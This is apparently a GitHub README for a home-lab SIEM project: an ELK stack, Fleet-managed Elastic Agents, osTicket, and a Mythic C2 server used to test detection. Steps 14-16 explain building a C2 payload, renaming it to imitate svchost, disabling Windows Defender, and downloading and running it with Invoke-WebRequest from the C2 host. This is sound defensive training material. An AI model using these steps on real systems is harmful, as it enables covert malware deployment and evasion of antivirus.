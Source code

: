 # 30-Day-On-Prem

## Objective

Implement a comprehensive Security Information and Event Management (SIEM) system on-premises. The project will focus on, deploying and configuring an ELK stack (Elasticsearch, Logstash, Kibana) to collect, process, and visualize security-relevant data, setting up a Fleet Server to manage and monitor Elastic Agents deployed on various systems and keep it all centralized, provisioning Windows and Linux server environments for testing and demonstration purposes, integrating a Mythic C2 server to simulate cyberattacks and assess the SIEM's detection capabilities, ans deploying an OSTicket server for incident management and ticketing. The overall goal is to establish a robust SIEM solution capable of detecting, analyzing, and responding to security threats within the organization.

### Skills Learned

ELK Stack: Elasticsearch, Logstash, and Kibana for data ingestion, processing, and visualization.
Security Information and Event Management (SIEM): Understanding of SIEM concepts, best practices, and use cases.
Network and System Administration: Knowledge of system configurations and troubleshooting techniques.
Security Tools and Technologies: Familiarity with tools like Kali, osTicket, and other security assessment tools.
Problem-solving: Ability to identify and troubleshoot issues related to SIEM deployments and data analysis.
Analytical Thinking: Skill in analyzing large datasets to identify security threats and patterns.
Attention to Detail: Meticulous approach to ensure accurate data collection and analysis.
Continuous Learning: A mindset of staying updated with the latest security threats and technologies.

### Tools Used

Elasticsearch: For storing and analyzing large volumes of data.
Logstash: Collects, processes, and transforms data from various sources.
Kibana: A powerful visualization tool for exploring and analyzing data stored in Elasticsearch.
Beats: Lightweight data shippers (e.g., Filebeat, Auditbeat, Metricbeat) to collect data from various sources.
Threat Intelligence Platforms: Tools to gather and analyze threat intelligence data.
Configuration Management Tools: To automate the deployment and configuration of the SIEM components.


## Steps

1. In Virtual box get your 6 machines ready. 4 ubuntu Libux m 2 Windows servers.<br>
![VMs](https://github.com/user-attachments/assets/a24c743d-907d-4d7e-b02f-e08b3b694833)<br>
*Ref 1: VMs*<br>
2. Set up your NAT network, enter your prefered IPv4 prefic and group your VMs into your newly created NAT network.<br>
![NAT Network](https://github.com/user-attachments/assets/735129b7-a24b-4b65-b076-2e3d48932b45)<br>
*Ref 2: NAT Network*<br>
3. Spin up your machines and update them.
4. Configure SSH port forwarding in your VM software, create one for each VM.<br>
![port-forwarding](https://github.com/user-attachments/assets/ee3278a5-30eb-4ba2-9df2-6be36221ef7f)<br>
*Ref 3: Port Forwarding*<br>
5. Install Elastic and Kibana on your ELK server and Sysmon on your Windows Server. Sudo nano /etc/elasticsearch/elasticsearh.yml > uncomment "network.host" and change it to the VMs ip and uncomment port. Start up elastic.<br>
![start elasticsearch](https://github.com/user-attachments/assets/7c4277af-cca8-466c-a77e-76c862fe3956)<br>
*Ref 4: Start elastic*<br>
6. Install Kibana, update config file > uncomment "server.port" and "server.host" and change it to ip address, same with "server.publicBaseUrl" with <ip address>:5601.<br>
![kibana config](https://github.com/user-attachments/assets/fc12b7e2-62a3-41fa-93bb-f59a48597e37)<br>
*Ref 5: Kibana config*<br>
7. Create encryption keys > cd /usr/share/kibana/bin > sudo ./kibana-encryption-keys generate. Next sudo ./kibana-keystore add <encryption key filename> > encryption key. Start up Kibana.<br>
![kibana generate encrypt keys](https://github.com/user-attachments/assets/0c2e2889-fd62-4d47-bf0a-9859d13167db)<br>
*Ref 6: Generate enctyption keys*<br>
![kibana encryption keys](https://github.com/user-attachments/assets/c8bc5e16-0f93-482e-b8b4-9a5245ef4fba)<br>
*Ref 7: Encryption keys*<br>
![start kibana](https://github.com/user-attachments/assets/81dff932-ce13-4ef2-847c-dc21945a767d)<br>
*Ref 8: Start Kibana*
8. Create a port forward rule on virtualbox(or VMware) to ELK. Create enrollment token > cd/usr/share/elasticsearch/bin. For verification code: cd /usr/share/kibana/bin > sudo ./kibana-verification-code. To login use elastic as username and password from security auto-configuration information("elastic built-in superuser passwrod").<br>
![ELK port forward](https://github.com/user-attachments/assets/5894648f-87b3-4a15-8078-48770b7941ca)<br>
*Ref 9: ELK port forward*<br>
![kibana enrollment key](https://github.com/user-attachments/assets/c175773b-674c-4425-8287-c14e76ed298c)<br>
*Ref 10: Enrollment key*<br>
![kibana verification code](https://github.com/user-attachments/assets/57e5270d-d35d-4cb2-831d-b7988c725d4e)<br>
*Ref 11: Verification code*<br>
9. Setup Fleet Server, Hamburger icon > fleet > add fleet server. Specify name, URL is the ip address of the fleet VM > generate server policy > fleet settings to change port from 443 to 8220 in Edit Fleet Server. Click agents > add fleet server > continue; copy Linux Tar and paste into fleet VM. Continue enrolling elastic agent > enter a policy name > create policy > click Windows tab and copy agent install text > on Windows server VM paste into an admin PowerShell instance. use "--insecure" flag.<br>
![elastic screen](https://github.com/user-attachments/assets/dce33c5a-0715-41f5-bd91-44490badbd7e)<br>
*Ref 12: elastic screen*<br>
![PS insecure agent](https://github.com/user-attachments/assets/233783f1-cc9b-497e-978d-979c0712b4cc)<br>
*Ref 13: insecure flag*<br>
![windows add agent](https://github.com/user-attachments/assets/42dd1a73-a36b-45c9-a653-184ef7baf22f)<br>
*Ref 14: Windows add agent*<br>
![Add Agent success](https://github.com/user-attachments/assets/f65fdb07-289a-42c2-a5be-026e9716dd3c)<br>
*Ref 15: Add Windows agent success*<br>
10. Add and Agent for Linux(Ubuntu) Server > create new agent policy > name it > enroll in fleet > create policy > copy Linux Tar and paste into Linux Server.<br>
![elastic screen](https://github.com/user-attachments/assets/9d84d1dd-1e1d-4594-be5d-4d0fa940a537)<br>
*Ref 16: Elastic screen*<br>
![Fleet](https://github.com/user-attachments/assets/fdbd22f3-b0a0-4bbf-b236-4957421d3883)<br>
*Ref 17: Fleet*<br>
11. Click the Haburger Icon > Integrations > Search "custom windows event logs" > add custom winds event logs > name it, for channel name go to windows server and open event viewer to find sysmon then operational: right-click, properties, "full name" is the channel name > exisiting host under "where to add", ...; win-policy > save and continue.<br>
![Custom windows event logs](https://github.com/user-attachments/assets/03598f24-eb91-4029-8187-3dbb992208cf)<br>
*Ref 18: Custom Windows event logs*<br>
12. On your Windows Server, Event viewer find Windows Defender > operational, properties, copy "full name" and add another custom Windows event logs like above. Enable RDP on Windows Server under remote desktop settings<br>
13. Install docker-compose and make on your mythic vm. Install <a href="https://docs.mythic-c2.net/installation">Mythic</a> then run sudo make. > sudo ./mythic-cli start > cat env, and create another port forwarding rule for Mythic, then install a Mythic agent and C2 profile.<br>
14. Make a Mythic payload by going to payloads > Actions > Generate new payload > Windows > Apollo > include all commands > include http: callback remove the s from hhtps and change it to the mythic vms ip address > create pay load > go to payloads and right click download and copy link address.
![Mythic payload](https://github.com/user-attachments/assets/e6297be7-be64-4034-87a7-abbeebc9950b)<br>
*Ref 19: Mythic payload*<br>
![Mythic agent and profile](https://github.com/user-attachments/assets/371b2f2e-a574-4d49-ab0b-9671ef0b3eda)<br>
*Ref 20: Mythic agent and profile*<br>
![Mythic active callback](https://github.com/user-attachments/assets/114ebab0-2ff4-48ed-b5c6-09cbe672254b)<br>
*Ref 21: Mythic active callback*<br>
15. In the Mythic VM cd into home directory > wget <link address>; change 8443 to 744. and ip to the mythic vm ip nad --no-check-certificate > mv <file> svchost-<make a filename>.exe < python3 -m http.server 9999
16. Disable Windows Defender on the Windows Server and add an exclusion for the Downloads Folder. In PowerShell invoke-webrequest -uri http://<mythic vm ip address>:9999/svchost-<filename>.exe -Outfile "(:\Users\Administrator\Downloads\svchost-<filename>.exe" > run the file thats in downloads.
17. Spin up your osTicket VM. Download <a href="https://www.apachefriends.org/download.html">xampp</a> by apache and <a href="https://osticket.com/">osTicket</a>. Click on xampp to install it. Extract all of the osTicket download after you extract the osticket zip in that folder.
![osTicket download](https://github.com/user-attachments/assets/2f9da10e-cc8d-4779-8662-51d54f098e22)<br>
*Ref 22: osTicket download*<br>
18. Navigate to xampp folder, find properties and edit it to change the Domain name to the VMs ip address, do the same to mysqlhost.
19. Open xampp control panel and start apache and mysql, click admin nnext to apache > phpMyAdmin > New, to create a new database > name it > create > home > user accounts > click "root" mext to "localhost" > change password > enter password, click go > login information, under host select "use text field", enter the osTicket VM ip address, enter a password > Go.
